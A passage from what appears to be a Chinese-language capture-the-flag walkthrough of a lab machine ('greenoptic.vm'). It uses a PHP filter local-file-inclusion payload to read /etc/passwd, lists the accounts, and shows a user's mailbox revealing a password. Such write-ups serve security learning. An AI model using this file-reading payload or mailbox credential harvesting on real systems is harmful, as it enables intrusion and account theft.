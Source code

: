 回到本地文件包含漏洞，使用base64方式查看文件，`php://filter/convert.base64-encode/resource=/etc/passwd`。

![](<../../.gitbook/assets/image (20) (1) (1) (1) (1).png>)

取passwd文件里面的用户，查看他的邮件

```
sam:x:1000:1000::/home/sam:/bin/bash
terry:x:1001:1001::/home/terry:/bin/bash
named:x:25:25:Named:/var/named:/sbin/nologin
alex:x:1002:1002::/home/alex:/bin/bash
dovecot:x:97:97:Dovecot IMAP server:/usr/libexec/dovecot:/sbin/nologin
dovenull:x:997:993:Dovecot's unauthorized user:/usr/libexec/dovecot:/sbin/nologin
monitor:x:1003:1003::/home/monitor:/bin/bash
saslauth:x:996:76:Saslauthd user:/run/saslauthd:/sbin/nologin
```

sam用户邮件内容

```
From terry@greenoptic.vm  Sun Jul 12 16:13:45 2020
Return-Path: <terry@greenoptic.vm>
X-Original-To: sam
Delivered-To: sam@websrv01.greenoptic.vm
Received: from localhost (localhost [IPv6:::1])
	by websrv01.greenoptic.vm (Postfix) with ESMTP id A8D371090085
	for <sam>; Sun, 12 Jul 2020 16:13:18 +0100 (BST)
Message-Id: <20200712151322.A8D371090085@websrv01.greenoptic.vm>
Date: Sun, 12 Jul 2020 16:13:18 +0100 (BST)
From: terry@greenoptic.vm

Hi Sam, per the team message, the password is HelloSunshine123
```
